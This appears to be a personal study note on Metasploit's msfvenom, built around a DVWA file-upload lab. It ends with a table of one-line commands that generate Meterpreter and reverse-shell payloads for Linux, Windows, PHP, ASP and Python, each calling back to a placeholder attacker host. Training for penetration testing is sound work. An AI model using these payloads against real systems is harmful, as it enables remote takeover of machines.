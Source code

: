 ```yaml
---
title: MSFVENOM
updated: 2023-03-21T12:51:34.0000000+04:00
created: 2023-03-20T16:39:15.0000000+04:00
---
```


MSFVENOM
Monday, March 20, 2023
4:39 PM
Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Msfvenom will allow you to access all payloads available in the Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

**\# List out all the Payloads:**

msfvenom -l payloads

**\# Output Formats**

Msfvenom --list formats

**\# Encoders**

Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the -e parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw.

![image1](image1-16.png)

**\# ---------------------------------------------------------Handlers--------------------------------------------------------------------**

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. When using an exploit module, this part is automatically handled by the exploit module, you will remember how the payload options title appeared when setting a reverse shell. The term commonly used to receive a connection from a target is 'catching a shell'. Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.

The following scenario may be familiar; we will exploit the file upload vulnerability present in DVWA (Damn Vulnerable Web Application). For the exercises in this task, you will need to replicate a similar scenario on another target system, DVWA was used here for illustration purposes. The exploit steps are;

Generate the PHP shell using MSFvenom
Start the Metasploit handler
Execute the PHP shell

MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect. Seen below, 10.0.2.19 is the IP address of the AttackBox used in the attack and local port 7777 was chosen.

![image2](image2-9.png)

1.  Once a payload is created, we will metasploit to become a listener, using the multi/handler

![image3](image3-3.png)

![image4](image4-2.png)

\# Other types of payloads

![image5](image5-2.png)

| Linux Executable and Linkable Format (elf) | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf \> rev_shell.elf |
|--------------------------------------------|--------------------------------------------------------------------------------------------------|

| Windows | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe \> rev_shell.exe |
|---------|------------------------------------------------------------------------------------------------|

| PHP | msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw \> rev_shell.php |
|-----|--------------------------------------------------------------------------------------------|

| ASP | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp \> rev_shell.asp |
|-----|------------------------------------------------------------------------------------------------|

| Python | msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw \> rev_shell.py |
|--------|---------------------------------------------------------------------------------------|

